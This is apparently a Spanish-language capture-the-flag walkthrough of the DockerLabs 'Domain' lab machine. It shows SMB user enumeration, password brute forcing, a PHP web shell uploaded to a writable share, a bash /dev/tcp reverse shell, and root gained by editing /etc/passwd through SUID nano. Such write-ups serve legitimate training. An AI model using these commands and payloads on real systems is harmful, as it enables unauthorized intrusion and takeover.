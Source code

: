 # Máquina Domain

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

***

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT    STATE SERVICE      REASON
80/tcp  open  http         syn-ack
139/tcp open  netbios-ssn  syn-ack
445/tcp open  microsoft-ds syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información sobre los servicios.

```shell
nmap -sCV -p80,139,445 172.17.0.2 -oN targeted
________________________________________________
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:11:00:02 (Unknown)

Host script results:
| smb2-time: 
|   date: 2024-04-18T20:32:47
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

## Explotación

Inspeccionamos la web:

![Pasted image 20240424213115](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/48db17cc-d22e-4b6b-8403-2cb281ec71bf)

Utilizamos **smbmap** para tratar de ver algo de información sobre el servicio **samba** pero no tenemos permisos para acceder a ningún sitio:

```shell
smbmap -H 172.17.0.2 -P 139
--------------------------------------------------
[+] IP: 172.17.0.2:139	Name: hidden.lab                                        
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	html                                              	NO ACCESS	HTML Share
	IPC$                                              	NO ACCESS	IPC Service 
```

No tenemos ninguna información disponible. Utilizando la herramienta **rpcclient**:

```shell
rpcclient -U '' -N 172.17.0.2
querydispinfo and enumdomusers
------------------------------------------
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: james	Name: james	Desc: 
index: 0x2 RID: 0x3e9 acb: 0x00000010 Account: bob	Name: bob	Desc: 
```

Encontramos un usuario **james** y un usuario **bob**. Probamos a hacer fuerza bruta contra el servicio **samba**, con la herramienta **hydra**

```shell
 hydra -l bob -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2
 --------------------------------------------------------------------
 [ERROR] target smb://172.17.0.2:445/ does not support SMBv1
```

Me da error así, he recurrido a **metasploit** con el módulo de **scanner** para el servicio **smb** pero también me daba error. Finalmente he usado **CrackMapExec**. Al usar el **rockyou.txt** me daba error por caracteres especiales que contiene, así que he cogido las 10.000 primeras contraseñas y las he metido en un nuevo diccionario -> **top10krockyou.txt** que es el que he empleado para la fuerza bruta:

```shell
crackmapexec smb 172.17.0.2 -u bob -p /usr/share/wordlists/top10krockyou.txt
-----------------------------------------------------------------------------------
SMB         172.17.0.2      445    86B2D8C57A0E     [+] 86B2D8C57A0E\bob:star 
```

Tras esperar un poco encontramos las credenciales del usuario **bob** -> **bob:star**

Revisamos que permisos tenemos con el usuario que hemos descubierto **bob**

```shell
smbmap -H 172.17.0.2 -u "bob" -p "star"
----------------------------------------------------------------------------------
[+] IP: 172.17.0.2:445	Name: unknown                                           
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	html                                              	READ, WRITE	HTML Share
	IPC$                                              	NO ACCESS	IPC Service (86b2d8c57a0e server (Samba, Ubuntu))
```

Vemos que tenemos permiso de **escritura** sobre el disco compartido **html**, si le echamos un vistazo, encontramos dentro el **index.html** de la web. Suponemos que la web lo está tomando de ahí, de forma que si subimos algo a este recurso compartido, es probable que se represente en la web. Así que subiremos una reverse shell:

Creamos el **cmd.php**:

```php
<?php
	system($_GET['cmd']);
?>
```

```shell
smbclient //172.17.0.2/html -U bob
put cmd.php
------------------------------------------
putting file cmd.php as \cmd.php (15,6 kb/s) (average 15,6 kb/s)
```

Nos dirigimos a la web a ver si estábamos en lo correcto:

![Pasted image 20240425105559](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/eb7db9e8-4967-40f4-bd36-e3e61355bc7c)

Hemos logrado la ejecución remota de comandos, **RCE**.

Nos enviamos una **reverse shell** y nos ponemos en escucha con **netcat**

```shell
sudo nc -nlvp 443
```

Y en la URL:

```
http://172.17.0.2/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261" 
```

Estamos dentro !

***

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Si miramos el **/etc/passwd**:

```shell
cat /etc/passwd
-------------------------------
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
james:x:1001:1001:james,,,:/home/james:/bin/bash
```

Vemos un par de usuarios con consola que son los mismos que encontramos con **rpcclient**.

Migramos a **bob** con su contraseña **star**:

```shell
su bob
```

Filtramos por archivos con permisos **SUID** de los que podamos abusar.

```shell
find / -perm -4000 2>/dev/null
-----------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/nano
```

Nos encontramos con **nano**, del que ya hemos abusado otras veces. Si no sabemos cómo, siempre podemos recurrir a [GTFOBins](https://gtfobins.github.io/)

He probado a salir del contexto de nano como root pero no lo he conseguido. Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña.

```
root:x:0:0:root:/root:/bin/bash
```

Suprimimos la "**x**":

```
root::0:0:root:/root:/bin/bash
```

```shell
su root
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
